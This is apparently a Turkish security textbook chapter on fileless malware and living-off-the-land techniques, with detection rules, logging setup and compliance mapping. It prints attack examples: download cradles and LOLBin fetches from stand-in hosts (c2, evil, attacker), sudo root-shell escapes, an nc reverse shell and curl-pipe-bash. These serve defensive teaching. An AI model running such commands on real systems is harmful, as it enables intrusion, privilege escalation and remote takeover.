




# Dosyasız Zararlı Yazılımlar ve Living off the Land

Geleneksel antivirüs çözümleri zararlı dosyaları disk üzerinde tarayarak tespit eder. Dosyasız saldırılar bu paradigmayı tamamen atlatır: kod yalnızca RAM'de yaşar, meşru sistem araçlarını kötüye kullanır ve disk üzerinde minimal iz bırakır. CrowdStrike 2026 Global Threat Report, 2025 tespitlerinin **%82'sinin dosyasız** olduğunu belirtmektedir (2019'da bu oran %40 idi).

**Living Off the Land (LOTL)** konsepti, saldırganların hedef sistemde zaten bulunan güvenilir araçları (PowerShell, WMI, certutil, bash) kötüye kullanarak ek araç indirmeden amaçlarına ulaşmasıdır. Bu bölümde dosyasız saldırı vektörleri, süreç enjeksiyonu, LOLBAS/GTFOBins katalogları ve Sysmon/SIEM tabanlı tespit stratejileri; **MITRE ATT&CK**, **NIST SP 800-53**, **CIS Controls v8** ve Türkiye mevzuatı çerçevesinde ele alınacaktır.


*Phishing → PowerShell cradle → in-memory payload → WMI persistence → lateral movement saldırı zinciri*

---

## §7.3.1. Dosyasız Saldırı Vektörleri: PowerShell, WMI ve .NET

Dosyasız saldırının mimari mantığı, diske kalıcı yürütülebilir dosya yazmadan yalnızca RAM'de ve güvenilir yerleşik araçlar aracılığıyla çalışmaktır — böylece imza tabanlı AV ve dosya bütünlük kontrolleri atlanır.

### PowerShell Tabanlı Saldırılar (T1059.001)

PowerShell, yönetim görevleri için tasarlanmış güçlü bir kabuktur ve aynı zamanda en çok istismar edilen araçtır.

**Download Cradle — klasik bellek içi yürütme:**

```powershell
IEX (New-Object Net.WebClient).DownloadString("http://c2/payload.ps1")
```

**Encoded execution:**

```powershell
powershell.exe -NoP -NonI -W Hidden -Exec Bypass -EncodedCommand <Base64_payload>
```

Araştırmalar, PowerShell çalıştırılmasının dosyasız olayların **%77,6'sında** tespit edildiğini, ancak Script Block Log kanıtlarının yalnızca **%30,6'sında** mevcut olduğunu göstermektedir. Bu orantısızlık, kurumsal ortamlarda PowerShell loglamasının yetersiz yapılandırıldığını ortaya koyar.

**Unmanaged PowerShell:** Gelişmiş tehdit aktörleri, `System.Management.Automation.dll` .NET kütüphanesini doğrudan kendi C# uygulamalarına yükleyerek `powershell.exe` sürecini hiç başlatmadan komut çalıştırır (Cobalt Strike `powerpick`, `psinject`). Bu, basit "powershell.exe çalıştı mı?" kurallarını işlevsiz kılar.

**Savunma kontrolleri:**

| Kontrol | Yapılandırma | Etki |
| :---- | :---- | :---- |
| Script Block Logging | Event ID 4104, GPO | De-obfuscate edilmiş script metni |
| Module Logging | Event ID 4103 | Pipeline yürütme detayı |
| Transcription | Tüm oturum girdi/çıktısı | Tam oturum kaydı |
| Constrained Language Mode | GPO/WDAC | Tehlikeli cmdlet kısıtlaması |
| AMSI | Varsayılan etkin | Bellek içi script tarama |

:::caution
Saldırganlar PowerShell v2'ye downgrade ederek (logging yok) veya PowerShell 7 üzerinden v5 monitörünü atlatarak kaçabilir. Her iki sürümde de logging açık olmalıdır. AMSI obfuscation ile atlatılabilir — AMSI ve Script Block Logging farklı amaçlara hizmet eder; ikisi birlikte gereklidir.
:::

### WMI Tabanlı Saldırılar (T1047, T1546.003)

WMI Event Subscription, en tehlikeli kalıcılık mekanizmalarından biridir çünkü **tamamen dosyasızdır** — payload WMI deposunda (`OBJECTS.DATA`) yaşar, registry/startup izi bırakmaz.

Üç bileşen:

```
┌───────────────────────────────────────┐
│  __EventFilter (Olay Filtresi)        │  ← "Sistem açıldığında tetiklen"
│  (WQL Sorgusu)                        │
└───────────────────────────────────────┘
                   │
                   │ (__FilterToConsumerBinding)
                   ▼
┌───────────────────────────────────────┐
│  __EventConsumer (Olay Tüketicisi)    │  ← "Zararlı PowerShell çalıştır"
│  (CommandLine / ActiveScript)         │
└───────────────────────────────────────┘
```

**EventFilter örneği:**

```sql
SELECT * FROM __InstanceModificationEvent WITHIN 60
WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'
AND TargetInstance.SystemUpTime >= 240 AND TargetInstance.SystemUpTime < 360
```

**Lateral movement:**

```powershell
Invoke-WmiMethod -Class Win32_Process -Name Create `
  -ArgumentList "powershell -c IEX(...)" -ComputerName srv02
```

WMI kalıcılığı dosyasız olayların **%46,9'unda** tespit edilmiş; WMI abonelik artefaktlarının kurtarılma oranı **%0** olarak ölçülmüştür. APT28, APT29 dahil sofistike aktörlerce kullanılmıştır.

**Flax Typhoon** (Microsoft Threat Intelligence, Ağustos 2023): Tayvan'daki onlarca kurumu hedefleyerek WMIC, PowerShell, WinRM ve SoftEther VPN ile "minimal malware kullanımı" stratejisiyle uzun vadeli erişim sağlamıştır.

### .NET ve Bellek İçi Yürütme

```csharp
// Reflective assembly loading
[System.Reflection.Assembly]::Load($bytes).EntryPoint.Invoke($null, (, [string[]] (' ')))
```

**Process Injection (T1055)** dosyasız saldırıların en yaygın tekniğidir; MITRE ATT&CK değerlendirmelerinde örneklerin **%30'unda** görülür.

---

## §7.3.2. Süreç Enjeksiyonu Mekanizmaları

Bellek içi saldırıların çekirdeğini, meşru bir sürecin sanal bellek alanına dışarıdan müdahale ederek kod yürütme sağlayan teknikler oluşturur.

### Reflective DLL Injection (T1055.001)

Standart DLL enjeksiyonu `LoadLibrary` ile diske yazılmış kütüphaneyi yükler — disk izi bırakır. Reflective DLL Injection diske hiç dokunmadan ham DLL baytlarını hedef sürecin belleğine yazar ve kendi içindeki `ReflectiveLoader` fonksiyonu ile PE'yi bellekte parse eder.

**Sömürü akışı:**

1. `OpenProcess` → hedef süreç handle
2. `VirtualAllocEx` → RWX bellek tahsisi
3. `WriteProcessMemory` → ham DLL yazımı
4. `CreateRemoteThread` → ReflectiveLoader adresine thread
5. PEB.Ldr üzerinden kernel32.dll çözümleme → DllMain çağrısı

**Tespit:** PEB modül listesinde görünmeyen MZ/PE başlıkları + `PAGE_EXECUTE_READWRITE` (malfind). ETW `THREATINT_ALLOCVM_REMOTE` ve `THREATINT_WRITEVM_REMOTE` olayları.

### Process Hollowing (T1055.012)

1. `CreateProcessW` + `CREATE_SUSPENDED` → meşru süreç askıda
2. `NtUnmapViewOfSection` → orijinal PE imajı bellekten sökülür
3. `VirtualAllocEx` + `WriteProcessMemory` → zararlı PE yazılır
4. `SetThreadContext` → entry point güncellenir
5. `ResumeThread` → OS süreci `svchost.exe` görür, içeride zararlı kod çalışır

**Early Bird varyasyonu:** Askıda süreç oluşturulduktan hemen sonra, EDR hook'ları enjekte edilmeden önce `QueueUserAPC` ile shellcode yürütülür.

| Teknik | Disk Dosyası | Kritik API Zinciri | EDR Atlama |
| :---- | :---- | :---- | :---- |
| Classic DLL Injection | Evet | OpenProcess → VirtualAllocEx → WriteProcessMemory → CreateRemoteThread | Düşük |
| Reflective DLL Injection | Hayır | VirtualAllocEx → WriteProcessMemory → CreateRemoteThread (Loader) | Orta-Yüksek |
| Process Hollowing | Hayır | CreateProcess(SUSPENDED) → NtUnmapViewOfSection → WriteProcessMemory → ResumeThread | Yüksek |
| Early Bird APC | Hayır | CreateProcess(SUSPENDED) → QueueUserAPC → ResumeThread | Çok Yüksek |

:::danger
BYOVD (Bring Your Own Vulnerable Driver) saldırıları çekirdek seviyesinde EDR'ı tamamen devre dışı bırakabilir. HVCI ve vulnerable driver blocklist bu vektöre karşı kritik önlemdir.
:::

---

## §7.3.3. LOLBAS: Windows Yerleşik Araçlarının Kötüye Kullanımı

**LOLBAS** (Living Off The Land Binaries and Scripts) projesi, Microsoft tarafından imzalanmış meşru binary'lerin saldırgan tarafından nasıl kötüye kullanılabileceğini kataloglar. Ana MITRE tekniği **T1218 (System Binary Proxy Execution)** ve alt teknikleridir.


*LOLBins kullanılarak gerçekleştirilen dosyasız saldırı akışı*

| Binary | Kötüye Kullanım | ATT&CK ID | Örnek Komut |
| :---- | :---- | :---- | :---- |
| `certutil.exe` | Dosya indirme, Base64 decode | T1140 / T1105 | `certutil -urlcache -f http://evil/payload` |
| `mshta.exe` | HTA / JScript / VBScript | T1218.005 | `mshta http://evil/payload.hta` |
| `regsvr32.exe` | Squiblydoo (uzak SCT) | T1218.010 | `regsvr32 /s /u /i:http://... scrobj.dll` |
| `rundll32.exe` | Kötücül DLL/JS çalıştırma | T1218.011 | `rundll32 javascript:...\mshtml,RunHTMLApplication` |
| `msiexec.exe` | Uzak MSI kurulumu | T1218.007 | `msiexec /q /i http://evil/payload.msi` |
| `wmic.exe` | Süreç oluşturma, recon | T1047 | `wmic process call create "cmd.exe"` |
| `bitsadmin.exe` | BITS ile arka plan indirme | T1197 / T1105 | `bitsadmin /transfer job http://evil/file` |
| `forfiles.exe` | Parent-process atlatarak proxy spawn | T1218 | `forfiles /p c:\windows /m notepad.exe /c cmd.exe` |

**Squiblydoo tekniği** (2016'dan beri aktif):

```cmd
regsvr32.exe /s /n /u /i:http://attacker/file.sct scrobj.dll
```

`regsvr32.exe` güvenilir bir binary olduğundan AppLocker/WDAC "yalnızca imzalı çalıştır" kuralını atlatır.

**Remcos/NetSupport RAT kampanyası** (Ocak 2026, Malwarebytes): Baştan sona LOLBins kullanan eksiksiz saldırı zinciri belgelenmiştir.


*LOLBins saldırılarına karşı katmanlı azaltma kontrolleri*

:::tip
LOLBAS tespiti için [lolbas-project.github.io](https://lolbas-project.github.io) ve SigmaHQ kural kütüphanesi temel başvuru kaynaklarıdır. Yeni bir NOPASSWD veya WDAC publisher kuralı eklenmeden önce LOLBAS/GTFOBins çapraz kontrolü zorunlu kılınmalıdır.
:::

---

## §7.3.4. GTFOBins: Linux/Unix Yerleşik Araçlarının Kötüye Kullanımı

**GTFOBins** (gtfobins.github.io), LOLBAS'ın Unix karşılığıdır. Birincil saldırı yüzeyi **privilege escalation** (SUID/sudo) ve **restricted shell escape**'tir.

Saldırgan iş akışı: `sudo -l` ve `find / -perm -4000 2>/dev/null` ile hakları numaralandır → GTFOBins'te çapraz referans → primitive çalıştır. LinPEAS/LinEnum bu keşfi otomatikleştirir.

```bash
# SUID/sudo abuse örnekleri (root shell)
sudo awk 'BEGIN {system("/bin/bash")}'
sudo find . -exec /bin/bash \; -quit
sudo vim -c ':!/bin/bash'
sudo less /etc/passwd        # ardından !/bin/bash
sudo nmap --script=$TF       # TF içinde os.execute("/bin/bash")
nc -e /bin/bash $LHOST $LPORT
tar c a.tar --checkpoint=1 --checkpoint-action=exec=sh shell.sh
curl http://malicious/payload | bash
```

| GTFOBin | Kötüye Kullanım | Kategori |
| :---- | :---- | :---- |
| `awk` | Root shell | SUID/sudo |
| `vim` | Kabuk çalıştırma | Sudo |
| `curl/wget` | Payload indirme + pipe bash | Network |
| `python3/perl` | Reverse shell, kod yürütme | Interpreter |
| `getcap` | Yetenek keşfi | Recon |

**Savunma (en yüksek kaldıraçlı kontrol):** Sudoers'a giren her binary, GTFOBins'te "Sudo" context'i için kontrol edilmeli. `python3`, `perl`, `awk`, editörler ve `socat`/`ncat` gibi ağ araçlarına NOPASSWD verilmemeli. Wrapper script'ler `chmod 750`, `root:root`, `/usr/local/sbin` altında tutulmalıdır.

---

## §7.3.5. Tespit Stratejileri: Sysmon, PowerShell Logging ve SIEM

Dosyasız ve LotL saldırılarının tespiti, dosya değil **davranış** ve **süreç soyağacı (process ancestry)** üzerine kuruludur.


*Dosyasız tehditlerde davranışsal analiz ve log korelasyonunun rolü*

### Sysmon Yapılandırması

Microsoft Sysinternals Sysmon, varsayılan olarak hiçbir şey loglamaz; config XML ile yönlendirilir. Endüstri standardı: **Olaf Hartong/sysmon-modular** (MITRE ATT&CK ile eşlenmiş).

```powershell
git clone https://github.com/olafhartong/sysmon-modular.git
cd sysmon-modular
. .\Merge-SysmonXml.ps1
Merge-AllSysmonXml -Path (Get-ChildItem '[0-9]*\*.xml') -AsString | Out-File sysmonconfig.xml
sysmon -accepteula -i sysmonconfig.xml
```

| Event ID | Anlamı | Tespit Değeri |
| :---- | :---- | :---- |
| 1 | Process creation (komut satırı + hash + parent) | LOLBAS/cradle, parent-child anomali |
| 3 | Network connection | C2 beacon, certutil ağ erişimi |
| 7 | Image load | DLL side-loading |
| 8 | CreateRemoteThread | Process injection (T1055) |
| 10 | ProcessAccess | LSASS erişimi (T1003.001) |
| 11 | FileCreate | Dropper, ADS |
| 19/20/21 | WMIEvent (Filter/Consumer/Binding) | WMI persistence (T1546.003) |
| 22 | DNS query | C2 domain |

WMI persistence için Event ID 19, 20, 21 etkin olmalıdır. Sysmon, native Windows WMI-Activity logları ile birlikte kullanılmalıdır.

### PowerShell Logging — Üç Katman

```
GPO: Computer Configuration > Policies > Administrative Templates >
     Windows Components > Windows PowerShell
- "Turn on PowerShell Script Block Logging" = Enabled
- "Turn on Module Logging" = Enabled, Module Names: *
Loglar: Applications and Services Logs > Microsoft > Windows > PowerShell > Operational
```

**Korelasyon mantığı:** 4104 olayı kullanıcı bağlamı içerir; 4624 (logon), 4688/Sysmon Event 1 (parent process) ve LogonID ile korelasyon yapılarak "PowerShell'i kim, hangi parent ile, hangi kaynak IP'den başlattı" sorusu yanıtlanır.

### Sigma ve SIEM Kuralları

```yaml
title: Suspicious PowerShell Download Cradle
status: experimental
logsource:
  product: windows
  service: powershell
detection:
  selection:
    EventID: 4104
  keywords:
    - 'IEX'
    - 'DownloadString'
    - 'FromBase64String'
    - 'Net.WebClient'
  condition: selection and 1 of keywords
level: high
```

**Splunk/SIEM hunting (4104):**

```
index=powershell EventCode=4104
| where match(ScriptBlockText, "(?i)(IEX|DownloadString|FromBase64String|Net.WebClient|Invoke-Mimikatz)")
| stats count by ComputerName, UserID, ScriptBlockText
```

### Wazuh Tespit Kuralı Örneği

```xml
<rule id="100539" level="12">
  <if_sid>60000</if_sid>
  <field name="win.system.providerName">^Microsoft-Windows-PowerShell$</field>
  <field name="win.system.eventID">4104</field>
  <regex>scriptBlockText.*(IEX|DownloadString|FromBase64String|certutil.*-urlcache|regsvr32.*scrobj)</regex>
  <description>[LOLBAS/Fileless] Şüpheli PowerShell Script Block activity</description>
  <group>powershell,lolbas,fileless,windows</group>
</rule>
```

### Tipik Fileless Saldırı Zinciri ve Tespit Noktaları

| Aşama | Teknik | Tespit Kaynağı |
| :---- | :---- | :---- |
| Initial Access | Spear-phishing, makro | E-posta gateway, 4688 |
| Execution | mshta/rundll32 tetikleme (T1218) | Sysmon EID 1, parent-child |
| Ingress | certutil/bitsadmin indirme (T1105) | Sysmon EID 1+3, 4104 |
| In-Memory | PowerShell IEX/encoded (T1059.001) | 4104, AMSI 1116-1118 |
| Injection | Reflective DLL / hollowing (T1055) | Sysmon EID 8, 10, malfind |
| Persistence | WMI Event Subscription (T1546.003) | Sysmon EID 19-21 |
| Lateral | WMI/WinRM (T1047) | 4624, 4104, RPC logları |

:::note
CIS Controls v8 **Control 8** (Audit Log Management) ve **Control 10** (Malware Defenses) bu tespit altyapısını kapsar. NIST SP 800-53 SI-4 (System Monitoring), AU-2/AU-6 (Audit) muadildir.
:::

---

## §7.3.6. Türkiye Mevzuatı ve Uyum Çerçevesi

| Mevzuat | Gereksinim | Fileless/LOTL Etkisi |
| :---- | :---- | :---- |
| **KVKK** | Teknik-idari tedbirler, 72 saat ihlal bildirimi | PS/Sysmon logları kişisel veri içerebilir |
| **5651** | Log saklama (1–2 yıl), bütünlük | WORM storage, hash zinciri |
| **CBDDO BİG** | 3.1.5.3 otomatik kod çalıştırma engeli, 3.1.5.6 merkezi log | WDAC + merkezi SIEM |
| **BDDK BSEBY** | Beyaz liste, 5 yıl iz kaydı, SOME | WDAC/AppLocker + EDR zorunlu |

**KVKK Rehberi** "tek bir siber güvenlik ürünü ile tam güvenlik sağlanamayacağını, tamamlayıcı tedbirlerin uygulanması gerektiğini" vurgular — bu, defense-in-depth'in mevzuat içindeki ifadesidir.

---

## §7.3.7. Olay Müdahale ve Bellek Forensics

Fileless tehditlerde disk forensics yetersiz kalır. **Memory forensics** (RAM dump → Volatility) öncelikli hale gelir; bellek volatildir, reboot'ta kanıt kaybolur.

**IR playbook — "Memory Capture First":**

1. EDR alarmı → host izolasyonu (ağ kes, süreçleri sonlandırma)
2. RAM dump (WinPMEM/DumpIt) — öncelikli
3. KAPE triage (Event Logs, Registry, Prefetch)
4. Volatility: `malfind`, `netscan`, `cmdline`, `psscan`
5. WMI abonelik denetimi: `Get-WmiObject -Namespace root\subscription -Class __EventFilter`
6. IOC üretimi → SIEM/EDR/MISP geri besleme

```powershell
# WMI persistence denetimi
Get-WmiObject -Namespace root\subscription -Class __EventFilter
Get-WmiObject -Namespace root\subscription -Class __EventConsumer
Get-WmiObject -Namespace root\subscription -Class __FilterToConsumerBinding
```

Anti-forensic teknikler (process injection, in-memory encryption) nedeniyle hibrit yaklaşım şarttır: **önleyici (ASR, AMSI, logging) + davranışsal tespit (EDR/SIEM) + hızlı bellek analizi**.

### Kurumsal Topoloji ve Ağ Segmentasyonu

Dosyasız saldırılarda saldırganlar RPC (TCP 135 + dinamik portlar), WinRM (5985/5986) ve WMI üzerinden yanal hareket gerçekleştirir. Segmentler arası bu portların açık bırakılması ciddi lateral movement açığı yaratır.

| Protokol | Port | Kötüye Kullanım | Azaltma |
| :---- | :---- | :---- | :---- |
| RPC/DCOM | 135, 49152-65535 | WMIExec, uzaktan komut | Micro-segmentation, PAW |
| WinRM | 5985/5986 | PowerShell Remoting | JEA, kısıtlı yetki |
| SMB | 445 | PsExec, dosya yayılımı | LAPS, tiered admin model |

Zero Trust mikro-segmentasyonu, uç noktadan merkezi SIEM/Wazuh'a gerçek zamanlı telemetri aktarımı ile birlikte dosyasız saldırıların erken tespitini mümkün kılar.

---

## Özet ve Mimari Tavsiyeler

Dosyasız + LOTL tehditleri, savunma derinliğinde "güvenilir araçların kötüye kullanımı" riskini somutlaştırır. Tam önleme imkansızdır; odak **tespit edilebilirlik** ve **hızlı müdahale** olmalıdır.

1. **Davranışsal telemetri zorunluluğu:** Saldırıların %82'si dosyasız. Sysmon (Olaf Hartong modüler config) + PowerShell Script Block Logging (4104) + EDR davranışsal kuralları minimum tabandır.

2. **Süreç soyağacı korelasyonu:** LOLBAS/GTFOBins tehdidi binary'de değil davranıştadır. Parent-child ilişki ve komut satırı analizine dayanmalıdır. `winword.exe → powershell.exe` olağandışıdır.

3. **WMI kör noktası:** WMI persistence adli kurtarma oranı %0'a yakındır. Sysmon EID 19-21 ve düzenli WMI abonelik denetimi zorunludur.

4. **Bellek önceliği:** Fileless vakalarda RAM dump ilk adımdır; disk forensics tek başına yetersiz kalır.

5. **Mevzuat-mimari hizalaması:** BDDK beyaz liste, 5 yıllık log saklama, KVKK 72 saat bildirimi mimari tasarım girdisidir.

**Öncelikli eylemler:**

- [ ] PowerShell Script Block + Module Logging + Transcription (GPO, tüm endpoint)
- [ ] Sysmon modüler config dağıtımı (WMI EID 19-21 dahil)
- [ ] LOLBAS/GTFOBins pattern'leri için SIEM korelasyon kuralları
- [ ] EDR/XDR davranışsal tespit katmanı
- [ ] IR playbook'a memory forensics prosedürü
- [ ] WDAC/AppLocker + ASR kuralları (Office makro, script engelleme)
- [ ] KVKK + 5651 + BDDK log bütünlüğü ve saklama politikaları
- [ ] Atomic Red Team ile tespit kurallarının periyodik doğrulaması